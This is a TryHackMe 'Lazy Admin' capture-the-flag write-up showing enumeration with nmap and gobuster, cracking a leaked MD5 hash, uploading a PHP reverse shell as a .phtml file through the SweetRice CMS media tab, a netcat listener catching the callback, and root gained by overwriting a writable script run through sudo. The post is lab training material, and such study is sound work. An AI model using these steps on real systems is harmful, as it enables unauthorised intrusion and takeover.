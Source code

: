 ```yaml
---
layout: post
title: Lazy Admin
subtitle: TryHackME - Lazy Admin
description: Enumerate services, scan ports, exploit vulnerabilities, and escalate privileges to capture flags.
image: https://tryhackme-images.s3.amazonaws.com/room-icons/7a8797ae59733f2a72f0e8a8748be128.jpeg
optimized_image: https://tryhackme-images.s3.amazonaws.com/room-icons/7a8797ae59733f2a72f0e8a8748be128.jpeg
tags:
  - TryHackME
  - enum web 
  - brute force
  - Privilege Escalation
  - Find Flags
author: Mustafa Altayeb
date: 2025-10-16 00:00
paginate: true
---
```


# Lazy Admin

[Lazy Admin](https://tryhackme-images.s3.amazonaws.com/room-icons/efbb70493ba66dfbac4302c02ad8facf.jpeg)

![](https://tryhackme-images.s3.amazonaws.com/room-icons/efbb70493ba66dfbac4302c02ad8facf.jpeg)

## Objectives

1. Enumerate ports
2. Enumerate HTTP
3. Brute force with gobuster
4. Gain access with an upload shell
5. Privilege escalation
6. Capture 2 flags

## Reconnaissance

### Nmap Scan

Port scan:

```bash
nmap -p- -sCV -T4 10.10.112.250
```

```js
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protoc
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**Key Findings**:

* **Port 22**: SSH service, version 7.2p2
* **Port 80**: Apache httpd

## Web Enumeration

![](/assets/TryHackMeRoomsImage/LazyAdmin/image.png)

## Gobuster

Gobuster may find special directories.

> **gobuster dir --url [http://10.10.112.250](http://10.10.112.250) -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt**

**Result**

```js
/content              (Status: 301) [Size: 316] [--> http://10.10.112.250/content/]  
```

![](/assets/TryHackMeRoomsImage/LazyAdmin/image2.png)

**Findings**:

* it uses SweetRice as a management system

let's enum this directory:

> **gobuster dir --url [http://10.10.112.250/content](http://10.10.112.250/content) -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt**

**findings**:

```js
/images               (Status: 301) [Size: 323] [--> http://10.10.112.250/content/images/]                                                          
/js                   (Status: 301) [Size: 319] [--> http://10.10.112.250/content/js/]                                                              
/inc                  (Status: 301) [Size: 320] [--> http://10.10.112.250/content/inc/]                                                             
/as                   (Status: 301) [Size: 319] [--> http://10.10.112.250/content/as/]                                                              
/_themes              (Status: 301) [Size: 324] [--> http://10.10.112.250/content/_themes/]                                                         
/attachment           (Status: 301) [Size: 327] [--> http://10.10.112.250/content/attachment/]   
```

in `/inc` : found MySQL backup:

![](/assets/TryHackMeRoomsImage/LazyAdmin/image3.png)

in `/as` : found login page:

![](/assets/TryHackMeRoomsImage/LazyAdmin/image4.png)

after downloading the SQL backup i found login credentials:

```
username : manager
hash (MD5) : 42f749ade7f9e195bf475f37a44cafcb
```

### crack hash with john

```bash
john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash
```

password: `Password123`

login with these credentials `username: manager` && `Password: Password123`

after login i find a tab called **Media Access**:

![](/assets/TryHackMeRoomsImage/LazyAdmin/image5.png)

## Gain Access

using [pentestmonkey php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and updating the IP and port, then start listener with netcat:

```bash
nc -nlvp 9090
```

i tried to upload `.php` but extension not approved; uploading `.phtml` succeeded:

![](/assets/TryHackMeRoomsImage/LazyAdmin/image6.png)

after clicking the uploaded file i gained a shell:

```text
💻  T4T4R1S  🌐 | Local IP ➜ 192.168.115.128 | 🥷 VPN IP ➜ 10.14.109.66
👀  ➜ ~/thm_machines/LazyAdmin  nc -nlvp 9090                  
listening on [any] 9090 ...
connect to [10.14.109.66] from (UNKNOWN) [10.10.112.250] 49668
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 15:47:29 up  1:03,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

## Upgrade shell using python

> **$ python -c 'import pty; pty.spawn("/bin/bash")'**

```js
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@THM-Chal:/$ 
```

## user flag

```bash
www-data@THM-Chal:/home/itguy$ cat user.txt
THM{63e5bce927..............}
```

# Privilege escalation

when i enumerated the system i used `sudo -l` to know what can i run:

```js
www-data@THM-Chal:/home/itguy$ sudo -l 
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
www-data@THM-Chal:/home/itguy$
```

* i can run `/usr/bin/perl /home/itguy/backup.pl` as root without password.

after checking, `backup.pl` runs `/etc/copy.sh` and `/etc/copy.sh` is writable:

```text
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```

i replaced `/etc/copy.sh` with a command to spawn bash as root:

```bash
www-data@THM-Chal:/home/itguy$ echo "/bin/bash" > /etc/copy.sh
```

then i executed the backup script via sudo to get root:

```bash
www-data@THM-Chal:/home/itguy$ sudo /usr/bin/perl /home/itguy/backup.pl
root@THM-Chal:/home/itguy# whoami
root
```

## Root flag

```bash
root@THM-Chal:/home/itguy# cd ~
root@THM-Chal:~# cat root.txt
THM{6637f41d0177b6f37cb2........f}
```

Finished. Happy hacking!

<iframe src="https://tryhackme.com/api/v2/badges/public-profile?userPublicId=3186403" style="border:none;"></iframe>

Follow me:

* [LinkedIn](https://www.linkedin.com/in/t4t4r1s/)
* [X](https://x.com/T4T4R1S)

---

\